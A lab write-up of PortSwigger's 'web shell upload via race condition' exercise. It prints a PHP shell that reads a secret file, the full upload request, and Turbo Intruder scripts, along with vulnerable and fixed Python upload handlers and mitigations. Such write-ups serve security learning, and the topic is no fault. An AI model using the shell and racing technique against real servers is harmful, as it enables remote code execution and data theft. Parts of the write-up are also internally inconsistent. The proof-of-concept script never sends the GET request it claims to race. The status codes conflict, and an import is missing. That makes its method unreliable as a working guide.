



# Lab 07: Web Shell Upload via Race Condition

> **Topic**: File Upload Vulnerabilities
> **Lab Number**: 07
> **Platform**: PortSwigger Web Security Academy

## Category
File Upload — Race Condition Between Upload and Antivirus/Validation Scan

## Vulnerability Summary
The application performs post-upload validation (antivirus scan or extension check) on uploaded files and deletes them if they fail. However, there is a brief window between when the file is written to disk and when the validation runs. By racing a GET request to the uploaded file's URL against the upload and deletion cycle — using Burp's Turbo Intruder to send both requests concurrently at high speed — it is possible to hit the file during that window and execute the PHP web shell before it is removed. The response returns the contents of `/home/carlos/secret`.

## Attack Methodology

### Step 1: Upload `exploit.php` Normally (Blocked)
Uploaded `exploit.php` with `Content-Type: application/x-php` directly. The server accepted the upload, wrote the file to disk, scanned it, detected the PHP extension, and deleted it — returning a 403 or error on subsequent GET requests.

The upload POST itself returns 200 (file temporarily exists), but a follow-up GET returns 404 because the file has already been deleted by the time the request arrives.

### Step 2: Identify the Race Window
The server's processing pipeline:
```
1. Receive multipart upload
2. Write file to /files/avatars/exploit.php   ← file exists here
3. Run validation / AV scan                   ← brief delay
4. Delete file if invalid                     ← file gone
```

Between steps 2 and 4 there is a small window (milliseconds) where the file exists and is executable.

### Step 3: Race with Turbo Intruder
Sent the upload POST to Turbo Intruder and wrote a script to simultaneously hammer the GET endpoint:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED
                           )

    for x in range(10, 20):
        engine.queue(target.req, x)

    for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())

def handleResponse(req, interesting):
    table.add(req)
```

The upload request (POST `/my-account/avatar` with `exploit.php`) and the GET request (`GET /files/avatars/exploit.php`) were sent in parallel with high concurrency. Some GET requests landed during the window when the file existed on disk.

**Upload request body:**
```http
POST /my-account/avatar HTTP/2
Host: 0a60006f03bf63b781113e9400c30036.web-security-academy.net
Cookie: session=eJzI6EGlrhxLXwcN9MbGmEJFcMpE1cQy
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOygAdFBu24l2uSQd

------WebKitFormBoundaryOygAdFBu24l2uSQd
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryOygAdFBu24l2uSQd
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryOygAdFBu24l2uSQd
Content-Disposition: form-data; name="csrf"

GuDjajwy7LuidANKBBBS3JjTRTUE4dim
------WebKitFormBoundaryOygAdFBu24l2uSQd--
```

### Step 4: Secret Returned
Turbo Intruder results showed 6 requests total:
- Rows 4, 5: `403` / `58,320` bytes — upload blocked (file deleted before GET)
- Rows 0–3: `200` / `14,580` bytes — **race won**, file executed

The winning GET response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 32

nIYl6YKImcuXTfSjcCEBTWtAbrrqeNvb
```

Lab solved.







## Technical Root Cause

### Vulnerable Processing Pipeline (TOCTOU)
```python
import os, threading

UPLOAD_DIR = '/var/www/files/avatars/'

def upload_avatar(request):
    file = request.FILES['avatar']
    save_path = os.path.join(UPLOAD_DIR, file.name)

    # Step 1: Write file to disk immediately
    with open(save_path, 'wb') as f:
        f.write(file.read())

    # Step 2: Validate asynchronously (or with delay)
    threading.Thread(target=validate_and_delete, args=(save_path,)).start()

    return HttpResponse(f'The file avatars/{file.name} has been uploaded.')

def validate_and_delete(path):
    time.sleep(0.01)  # scan delay — file is live during this window
    if not is_safe(path):
        os.remove(path)
```

This is a classic **Time-of-Check to Time-of-Use (TOCTOU)** race condition. The file is accessible between write and deletion.

### Secure Implementation
```python
import tempfile, uuid

def upload_avatar(request):
    file = request.FILES['avatar']

    # Write to a non-web-accessible temp location first
    with tempfile.NamedTemporaryFile(dir='/tmp/uploads_staging', delete=False) as tmp:
        tmp.write(file.read())
        tmp_path = tmp.name

    # Validate before moving to web-accessible directory
    if not is_safe(tmp_path):
        os.remove(tmp_path)
        return HttpResponseForbidden('File not allowed')

    # Only move to web root after passing validation
    final_name = f'{uuid.uuid4()}.jpg'
    final_path = os.path.join(UPLOAD_DIR, final_name)
    os.rename(tmp_path, final_path)
    return HttpResponse('Upload successful')
```

By staging uploads outside the web root and only moving them after validation passes, there is no window during which an invalid file is web-accessible.

## Impact
- **Race Condition Bypasses Post-Upload Validation**: Any server-side scan that runs after the file is written to a web-accessible location is vulnerable to this attack
- **Remote Code Execution**: The PHP shell executes with web server privileges during the race window
- **Repeatable**: With sufficient concurrency (Turbo Intruder, custom scripts), the race window can be hit reliably

**Severity: Critical**

## Proof of Concept

Using Turbo Intruder — send upload POST and GET `/files/avatars/exploit.php` concurrently at high speed. Some GET requests will land during the window between file write and deletion, returning the PHP output.

```python
# Turbo Intruder script
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED)
    for x in range(10, 20):
        engine.queue(target.req, x)

def handleResponse(req, interesting):
    table.add(req)
```

## Key Takeaways
1. **Never Write Untrusted Files to a Web-Accessible Directory Before Validation**: The root cause is that the file is reachable via HTTP the instant it is written. Staging uploads in a non-web-accessible directory eliminates the race window entirely.
2. **Validate Synchronously, Not Asynchronously**: Post-upload async scanning (e.g., a background AV job) always creates a TOCTOU window. Validation must complete before the file is moved to a publicly accessible location.
3. **Race Conditions Are Exploitable with Standard Tools**: Turbo Intruder can send hundreds of concurrent requests per second, making even millisecond-wide race windows reliably exploitable.
4. **Atomic Move After Validation**: Use `os.rename()` (atomic on the same filesystem) to move the file from staging to the web root only after all checks pass — there is no intermediate state where the file is both unvalidated and accessible.

## Mitigation

### Stage Outside Web Root
```python
# Write to /tmp/staging/ (not web-accessible)
# Validate
# Only then: os.rename('/tmp/staging/file', '/var/www/files/avatars/uuid.jpg')
```

### Synchronous Validation Before Exposure
```python
# All validation must complete before the file reaches the web root
assert is_safe(tmp_path)
os.rename(tmp_path, final_web_path)
```

### Serve Uploads via Application, Not Directly
Serve uploaded files through an application endpoint that checks permissions and content type on every request, rather than serving them as static files directly from disk.

## References
- [PortSwigger — Web Shell Upload via Race Condition](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [PortSwigger — Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988)
- [CWE-362: Concurrent Execution using Shared Resource with Improper Synchronization (Race Condition)](https://cwe.mitre.org/data/definitions/362.html)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

## Tools Used
- Burp Suite Professional (Proxy, Turbo Intruder)
- Chromium

---

*Lab completed on: 2026-05-13*  
*Writeup by vibhxr*
